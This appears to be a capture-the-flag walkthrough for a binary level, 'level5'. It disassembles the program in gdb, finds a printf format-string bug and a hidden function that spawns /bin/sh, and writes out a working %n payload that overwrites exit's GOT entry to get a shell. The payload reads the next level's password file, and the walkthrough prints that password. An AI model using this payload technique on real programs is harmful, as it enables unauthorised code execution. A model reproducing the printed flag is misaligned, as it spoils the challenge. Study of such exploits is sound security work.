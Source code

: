 # Analysis

Examine the program's functions:

```bash
(gdb) info functions
[...]
0x080484a4  o
0x080484c2  n
0x08048504  main
[...]
(gdb) disassemble main
Dump of assembler code for function main:
0x08048504 <+0>:     push   %ebp
0x08048505 <+1>:     mov    %esp,%ebp
0x08048507 <+3>:     and    $0xfffffff0,%esp
0x0804850a <+6>:     call   0x80484c2 <n>
0x0804850f <+11>:    leave
0x08048510 <+12>:    ret
End of assembler dump.
(gdb) disassemble n
Dump of assembler code for function n:
0x080484c2 <+0>:     push   %ebp
0x080484c3 <+1>:     mov    %esp,%ebp
0x080484c5 <+3>:     sub    $0x218,%esp
0x080484cb <+9>:     mov    0x8049848,%eax
0x080484d0 <+14>:    mov    %eax,0x8(%esp)
0x080484d4 <+18>:    movl   $0x200,0x4(%esp)
0x080484dc <+26>:    lea    -0x208(%ebp),%eax
0x080484e2 <+32>:    mov    %eax,(%esp)
0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
0x080484ea <+40>:    lea    -0x208(%ebp),%eax
0x080484f0 <+46>:    mov    %eax,(%esp)
0x080484f3 <+49>:    call   0x8048380 <printf@plt>
0x080484f8 <+54>:    movl   $0x1,(%esp)
0x080484ff <+61>:    call   0x80483d0 <exit@plt>
End of assembler dump.
(gdb) disassemble o
Dump of assembler code for function o:
0x080484a4 <+0>:     push   %ebp
0x080484a5 <+1>:     mov    %esp,%ebp
0x080484a7 <+3>:     sub    $0x18,%esp
0x080484aa <+6>:     movl   $0x80485f0,(%esp)
0x080484b1 <+13>:    call   0x80483b0 <system@plt>
0x080484b6 <+18>:    movl   $0x1,(%esp)
0x080484bd <+25>:    call   0x8048390 <_exit@plt>
End of assembler dump.
(gdb) x/s 0x80485f0
0x80485f0:       "/bin/sh"
(gdb) disassemble exit
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370
End of assembler dump.
```

## Key Observations
- `main` calls `n`.
- `n` uses `fgets` for input and `printf`, which is vulnerable to format string exploits.
- `o` calls `system("/bin/sh")`.
- `exit` function is used in `n`, so we can't use a return-to-libc to directly call `o`.

# Clue for Exploration

Think about how you can manipulate the execution flow given these constraints:

- **Format String Vulnerability**: How does `printf` interpret user input, especially with format specifiers?
- **Function Addresses**: Consider how you might redirect the program to execute a different function. How are function addresses used in the program's execution?

Explore these aspects to guide your approach in crafting an exploit.

# Crafting the Exploit

We'll use the format string vulnerability to manipulate the execution flow.

## Locating the Input on the Stack

Identify where the input string is placed on the stack:

```bash
$ python -c 'print("AAAA" + "%x %x %x %x")' | ./level5
AAAA200 b7fd1ac0 b7ff37d0 41414141
```

Here, `41414141` (hexadecimal for "AAAA") indicates our input string's position at the fourth place on the stack.

## Building the Payload

We'll construct a payload to overwrite the address where `exit` is called with the address of `o`:

```bash
$ (python -c 'print("\x08\x04\x98\x38"[::-1] + "%134513824p" + "%4$n")' && echo 'cat /home/user/level6/.pass') | ./level5
```

In this payload:
- `"\x08\x04\x98\x38"[::-1]` is the little-endian representation of the address where `exit` is called (`0x8049838`).
- `%134513824p` pads the output to the exact byte count needed (`134513828` minus the 4 bytes of the address itself).
- `%4$n` writes this byte count to the fourth position on the stack, overwriting the `exit` function's calling address with the address of `o`.

## Exploit Execution

Executing this payload triggers the `o` function instead of `exit`:

```plaintext
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

The exploit successfully opens a shell, allowing us to access the next level's password. The process is slow due to the large number of bytes being written.
